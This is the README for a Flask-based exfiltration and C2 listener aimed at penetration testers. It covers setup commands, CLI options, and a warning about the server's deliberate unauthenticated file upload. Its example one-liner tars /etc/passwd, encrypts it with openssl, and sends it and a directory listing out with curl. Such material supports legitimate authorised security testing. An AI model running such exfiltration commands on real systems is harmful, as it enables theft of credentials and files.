 # RedBox Exfil Server
RedBox Exfil Server is a Python Flask Web Server for Penetration Testers, Red Teamers, and Security Professionals which features:
- [[File Upload]]
- [[Dynamic Request Parameter Logging]]
- [[Automatic Archive Extraction]]
- [[Automatic Decryption]]
- [[Automatic Decoding]]

This software is intended to be used as an a rudementary C2 endpoint for capturing web request data in various scenarios. Some examples may include:
- A blind command injection vulnerability
- An XSS attack where a quick and dynamic web request logging server is needed
- A situation where remote shell access has been obtained and a verbose-logging web-based exfiltration server is desired

**This project is still in development and some features may be buggy. If you run into problems, please open an Issue!**

### A note on security
This software should not be left generally accessible to the broader Internet. It is built with what some might consider an Arbitrary File Upload vulnerability by intention, and will accept and save files to the local disk without authorization or authentication. Due diligence should be taken to ensure that the system this software is deployed to is secured properly. A few recommendations:
- Place a Reverse Proxy to route and block traffic to this web application
- Whitelist your target's IP space
- Don't auto extract archives without understanding my filtering method

## Quick Start
### Docker
```bash
docker run -t -v "$PWD/uploads:/redbox/uploads" -v "$PWD/logs:/redbox/logs" -p "80:80" -n redbox cyberbutler/redbox-exfil-server -h
```
### PipEnv
```bash
pip install --user pipenv
pipenv install
pipenv shell
python redbox-server.py -h
```

### Options
```bash
python redbox-server.py -h

usage: redbox-server.py [-h] [--host HOST] [--port PORT] [-c CONFIG]
                        [--dump-config] [--debug]
                        [-p {hex,openssl-aes256-pbkdf2,gzip,b64}]
                        [-A | --auto-process | --no-auto-process]
                        [--auto-extract-tar]
                        [--encryption-password PROCESSOR_ARGUMENTS.OPENSSL-AES256-PBKDF2.PASSWORD]

A Webserver for File Exfiltration and C2.

optional arguments:
  -h, --help            show this help message and exit
  --host HOST, -H HOST  The host IP Address to bind to (default: 0.0.0.0)
  --port PORT, -P PORT  The port to bind to (default: 80)
  -c CONFIG, --config CONFIG
                        YAML config file path (default: None)
  --dump-config         Dump the configuration settings as YAML (default:
                        False)
  --debug               Enable Flask's Debug Mode (default: False)
  -p {hex,openssl-aes256-pbkdf2,gzip,b64}, --processor {hex,openssl-aes256-pbkdf2,gzip,b64}
                        Specify a processor to use. This flag can be used more
                        than once to define multiple process_list functions.
                        Use this flag in the order in which you wish to
                        process received data (default: [])
  -A, --auto-process, --no-auto-process
                        Automatically run processors based on detected data.
                        This option is enabled by default, but should be
                        disabled (--no-auto-process) when you receive output
                        you don't expect. Such as in the case of Base64
                        decoding being run on output that is not Base64
                        encoded. Instead, force the process with the `-p`
                        flag. (default: True)
  --auto-extract-tar, -x
                        Auto extract TAR archives received by the server.
                        (default: False)
  --encryption-password PROCESSOR_ARGUMENTS.OPENSSL-AES256-PBKDF2.PASSWORD
                        The password used to decrypt/encrypt. (default:
                        EncryptMe)

Far more configuration options exist which must be specified in Environment
Variables, use `--dump_config` to see all of the options

```

### Examples
#### Exfiltrating a Tar archive and command output from a Linux system
```bash
tar -cz /etc/passwd \
| openssl enc -a -e -aes-256-cbc -pbkdf2 -pass 'pass:EncryptMe' \
| curl 127.0.0.1$PWD -F "dir_listing=`ls -al | openssl enc -a -e -aes-256-cbc -pbkdf2 -pass 'pass:EncryptMe'`" -F "upload=@-" 
```

![example-screenshot.png](docs/example-screenshot.png)

## Todo
- [ ] Greater documentation of techniques using this web server
- [ ] Chunked File Upload handling and example commands
- [ ] More Processing modules
- [ ] Expand archive extraction functionality
